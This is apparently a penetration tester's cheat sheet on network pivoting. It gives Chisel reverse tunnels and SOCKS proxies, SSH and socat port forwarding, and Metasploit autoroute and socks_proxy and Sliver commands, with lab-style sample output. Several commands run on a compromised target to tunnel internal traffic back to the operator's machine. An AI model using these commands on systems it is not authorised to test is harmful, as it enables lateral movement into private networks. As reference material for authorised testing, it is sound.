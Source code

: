 ```yaml
---
title: "Network Traffic Pivoting"
date: 2024-6-26
tags: ["Pivoting", "Sliver", "Pivot", "Chisel", "Ssh", "Network", "Socat", "Port Forwarding", "Tunneling", "Metasploit"]
---
```


### Tunneling

{{< tab set1 tab1 active >}}Chisel{{< /tab >}}
{{< tab set1 tab2 >}}ssh{{< /tab >}}
{{< tab set1 tab3 >}}socat{{< /tab >}}
{{< tab set1 tab4 >}}metasploit{{< /tab >}}
{{< tab set1 tab5 >}}sliver{{< /tab >}}
{{< tabcontent set1 tab1 >}} 

#### Start a local chisel Server

```console
# In our local Linux machine
./chisel server --reverse --port <LOCAL_PORT>
```

```console {class="sample-code"}
$ ./chisel server --reverse --port 8000 
2024/09/23 12:27:03 server: Reverse tunnelling enabled
2024/09/23 12:27:03 server: Fingerprint ikFn6iQOOodxIlcDQI4dvFu1pdHgV5UnHRenxUg0eho=
2024/09/23 12:27:03 server: Listening on http://0.0.0.0:8000
```

#### Ports forwarding

```console
# In target machine
./chisel client <LOCAL_IP>:<LOCAL_PORT> R:<TARGET_PORT>:127.0.0.1:<TARGET_PORT>
```

```console
# Mutiple ports fowarding, can be different targets in the same subnet
./chisel client <LOCAL_IP>:<LOCAL_PORT> R:8080:172.17.0.2:8080 R:5000:172.17.0.3:5000
```

#### Socks5

```console
# In our local Linux machine
sudo nano /etc/proxychains4.conf
```

```console
# Add to the end of the file
socks5 127.0.0.1 1081
```

```console
# In target machine
./chisel client <LOCAL_IP>:<LOCAL_PORT> R:1081:socks
```

```console {class="sample-code"}
$ ./chisel client 10.10.14.31:8000 R:1081:socks
2024/09/23 04:16:44 client: Connecting to ws://10.10.14.31:8000
2024/09/23 04:16:44 client: Connected (Latency 47.945673ms)
```

```console
# Usage, in our local machine
proxychains4 curl http://127.0.0.1:1081
```

<small>*Ref: [chisel](https://github.com/jpillora/chisel)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# SSH port forwarding without spawning a shell
ssh -N -L <TARGET_PORT>:127.0.0.1:<TARGET_PORT> <USER>@<TARGET>
```

```console {class=sample-code}
$ ssh -N -L 5985:127.0.0.1:5985 3v4Si0N@10.10.10.240
3v4Si0N@10.10.10.240's password:  
```

```console
# SSH socks5 tunneling without spawning a shell
ssh -N -D 1081 <USER>@<TARGET>
```

```console {class=sample-code}
$ ssh -i id_rsa -N -D 1081 root@10.10.11.179
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Any traffic go to port <TARGET_PORT> will be forwarded to <LOCAL_IP>:<TARGET_PORT>
./socat tcp-listen:<TARGET_PORT>,fork tcp:<LOCAL_IP>:<TARGET_PORT> &
```

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

#### Ports forwarding

```console
# Add
portfwd add -l <TARGET_PORT> -r 127.0.0.1 -p <TARGET_PORT>
```

```console
# Delete
portfwd delete -l <TARGET_PORT> -r 127.0.0.1 -p <TARGET_PORT>
```

#### Socks5

```console
# First add routes to target subnet
use post/multi/manage/autoroute
```

```console
set session <ID>
```

```console
run
```

```console
# Then create socks proxy
use auxiliary/server/socks_proxy
```

```console
run
```

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

```console
socks5 start
```

{{< /tabcontent >}}
